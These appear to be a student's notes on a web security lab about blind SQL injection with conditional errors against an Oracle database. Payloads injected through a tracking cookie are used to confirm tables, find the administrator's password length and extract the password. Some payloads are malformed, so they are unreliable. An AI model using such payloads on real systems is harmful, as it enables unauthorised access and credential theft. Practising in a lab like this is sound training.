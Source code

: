 Lab #12 - Blind SQL injection with conditional errors

Vulnerable parameter - tracking cookie

End Goals:
	- Output the administrator password
	- Login as the administrator user


Analysis: 

1) Prove that param is vulnerable

' || (select '') ||' --> gives error
2) confirm users table exist
' || (select '' from dual) || ' --> its oracle db doesn;t gives error
 ' || (select '' from users where rownum =1) || '
 -> users table exists

3) administrator user exist
' || (select '' from users where username ='administrator') || '

case expression in orcacle

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) ||'
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||'

4) Determine the length of password
' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) ||'

5) Output the administrator password

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') and substr(password,,1)='a' ||'